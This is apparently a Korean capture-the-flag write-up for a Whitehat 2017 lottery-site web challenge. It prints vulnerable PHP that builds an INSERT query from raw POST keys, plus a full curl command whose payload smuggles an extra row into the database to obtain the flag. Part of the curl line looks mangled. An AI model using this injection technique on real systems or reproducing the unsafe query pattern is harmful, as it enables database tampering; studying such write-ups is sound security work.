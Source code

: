 # [WEB] Whitehat 2017 - winner of life

## Description

>  [link][https://309d24f0f1f4d43c7640b02baa5d8667.whitehatcontest.kr/]

## Analysis

뭔가 로또 사이트 처럼 보이는 페이지이다.

간단하게 회원가입을 한 후 로그인 해보자.

그 후 Buy 메뉴에 들어가 적당한 숫자에 체크해준 후 Submnit하면 `Your luckyNumber is 1,12,23,34,45,56,68. Good luck!`이라는 문자열과 함께 로또를 사게 된다.

History 메뉴에 들어가면 지금까지 샀던 로또 결과가 나온다.

| ROUND | MY NUMBERS          | TIME                |
| ----- | ------------------- | ------------------- |
| 38128 | 1,12,23,34,45,56,67 | 2017-11-06 11:26:06 |

음 뭐가 당첨이고 아닌지 모르겠다.

Statistics메뉴에 들어가보자.

URL을 보면 `https://309d24f0f1f4d43c7640b02baa5d8667.whitehatcontest.kr/?p=statistics&no=1` 다음과 같은데, 뭔가 굉장히 no에서 인젝션이 될거 같이 생겼다.

블라인드 인젝션 각이다.

# Exploit

SQL인젝션으로 소스코드를 읽어보자.



SQL 인젝션으로 당첨 번호를 찾아보자.



소스 중 buy_check.php를 보자.

```php+HTML
<!-- buy_check.php -->

<?php
	session_start();
	include 'd6conn.php';
	if(!$_SESSION['id'])
		die('<script> alert("LOGIN FIRST"); location.href="./?p=login"; </script>');
	### CHECK VALID VALUE ###
	if(sizeof($_POST) != 7)
		die("<script> alert('You MUST check exactly 7 numbers.'); history.go(-1);</script>");
	foreach( $_POST as $k => $v )
	{
		if($k != $v)
			die("<script> alert('Input error.. Intersting..'); history.go(-1);</script>");
		if(!is_numeric($k))
			die("<script> alert('DO NOT MODIFY NUMBERS TO STRING'); history.go(-1);</script>");
	}

	### INSERT TO DATABASE ###
	$Data = implode(",",$_POST);
	$Round = getRound($conn);
	$time = date("Y-m-d H:i:s");
	$q = "INSERT INTO ATTEMPT value('{$Round}','{$_SESSION['id']}','{$Data}','{$_SERVER['REMOTE_ADDR']}','{$time}')";
	$res = mysqli_query($conn,$q);
	if( mysqli_errno($conn) == 1062 )
		die("<script> alert('You already attempt this round. Please wait.'); location.href='./';</script>");
	else
		die("<script> alert('Your luckyNumber is ".$Data.". Good luck!'); location.href='./';</script>");
?>
```

INSERT문을 보면 굉장히 insert injection이 일어날거 같이 생기지 않았는가!?

data로 `1=1&12=12&23=23&34=34&45=45&56=56&68=68','1','1'),('1','sh','6,9,16,30,33,37,58`를 넘겨 insert injection을 해보자.

```bash
curl 'https://309d24f0f1f4d43c7640b02baa5d8667.whitehatcontest.kr/buy_check.php' -in: https://309d24f0f1f4d43c7640b02baa5d8667.whitehatcontest.kr' -H 'accept-encoding: gzip, deflate, br' -H 'accept-language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4,ja;q=0.2' -H 'upgrade-insecure-requests: 1' -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36' -H 'content-type: application/x-www-form-urlencoded' -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'cache-control: max-age=0' -H 'authority: 309d24f0f1f4d43c7640b02baa5d8667.whitehatcontest.kr' -H 'cookie: PHPSESSID=gcoe1o75sf35hr70v3ub14q0k6; AWSALB=Kw2xupsLvjTuWXdj+wADSrRxZXXTo8dA5IKRrpCefyQbnM7T9C7blRox8qXPakVKFkOU19vmNLWPlU0Z1aWXGXhhUuzzO4cfplpPAXji6Da9rV/Ob04vc3ka0gOu' -H 'referer: https://309d24f0f1f4d43c7640b02baa5d8667.whitehatcontest.kr/?p=buy' --data "1=1&12=12&23=23&34=34&45=45&56=56&68=68','1','1'),('1','sh','6,9,16,30,33,37,58" --compressed
```

이를 수행하면 

```html
<script> alert('Your luckyNumber is 1,12,23,34,45,56,68','1','1'),('1','sh','6,9,16,30,33,37,58. Good luck!'); location.href='./';</script>
```

다음의 결과를 뿌려준다.

뭔가 등록된거 같으니 history메뉴에 들어가자.

| ROUND | MY NUMBERS              | TIME                |
| ----- | ----------------------- | ------------------- |
| 1     | FLAG{Wa11eT_I5_H0W1IN9} | 2017-11-06 11:36:17 |
| 38128 | 1,12,23,34,45,56,67     | 2017-11-06 11:26:06 |
| 38130 | 1,12,23,34,45,56,68     | 1                   |

Halo~~

플래그를 얻을 수 있다.



**FLAG{Wa11eT_I5_H0W1IN9}**